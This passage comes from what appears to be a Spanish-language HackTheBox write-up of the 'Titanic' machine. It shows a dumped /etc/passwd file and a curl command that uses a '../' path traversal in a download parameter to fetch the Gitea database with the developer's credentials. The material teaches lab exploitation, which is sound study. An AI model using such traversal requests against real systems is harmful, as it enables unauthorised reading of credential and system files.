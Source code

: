 ```bash
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Parece que efectivamente tenemos un ataque de Path Taversal y de este archivo etc/passwd vemos que solo hay dos usuarios que parecen útiles, el usuario developer y el usuario root.

Como vimos antes en el subdominio dev.titanic.htb, el usuario developer es el que tenia los repositorios docker-config y Flask-config creados.

El usuario que está ejecutando el servicio web Flask es el usuario www-data pero podemos probar a ver a qué ficheros tenemos acceso.

## User flag

Probando la ubicación tipica de la flag de usuario, efectivamente tenemos acceso a la carpeta `/home/developer`

![alt text](/assets/img/posts/titanic_htb/image-5.png)

Esto significa que si como vimos antes la ruta por defecto de gittea es `/home/developer/gitea/data` quizá tengamos acceso a la base de datos de gitea y por ende a la contraseña de la cuenta developer.

## Base de datos de Gitea

```bash
❯ curl 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db' --output gitea.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2036k  100 2036k    0     0   287k      0  0:00:07  0:00:07 --:--:--  321k
```

![alt text](/assets/img/posts/titanic_htb/image-6.png)
